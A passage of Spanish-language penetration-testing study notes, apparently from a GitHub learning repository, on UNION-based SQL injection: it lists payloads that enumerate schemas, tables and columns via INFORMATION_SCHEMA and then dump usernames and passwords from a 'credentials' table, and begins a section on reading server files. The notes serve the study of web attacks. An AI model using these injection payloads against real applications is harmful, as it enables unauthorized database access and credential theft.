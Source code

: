 ```
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```
![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/4f78f3ce-fe9a-4707-8e91-3606f530d64b)

Vemos las dos bases y podemos buscar información sobre la aplicación y podemos utilziar "SELECT Database()"
```
cn' UNION select 1,database(),2,3-- -
```

## TABLAS

Antes de dumpear los datos de la base de datos "dev" nosotros necesitamos una lista de las tablas con la consulta "SELECT" para buscar todas las tablas con la base de datos.

Las tablas contienen la informacion sobre la base de datos

```
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

## COLUMNAS

Para credenciales por ejemplo

```
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

## DATOS

Ahora que tnemos toda la información podemos sacar el usuario y contraseña.
```
cn' UNION select 1, username, password, 4 from dev.credentials--
```
![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/0d7fdb38-9813-4a53-a9e9-4eea3a753e78)

# LEER ARCHIVOS

Una forma adicional de conseguir datos de las bases de datos, es rellendo archivos del servidor y ganar codigo ejecutable.

## PRIVILEGIOS

Leer dato es muy comun, porque normalmente usuarios privilegiados explicar o hay información.

### DB user

Primero de todo identificar la base de datos. Mientras no sea necesario ser administrador (DBA) para leer archivos, nosotros requeriremos de bases de datos modernas. Si nosotros tenemos DBA privilegios podemos ahcer lo que queramos.
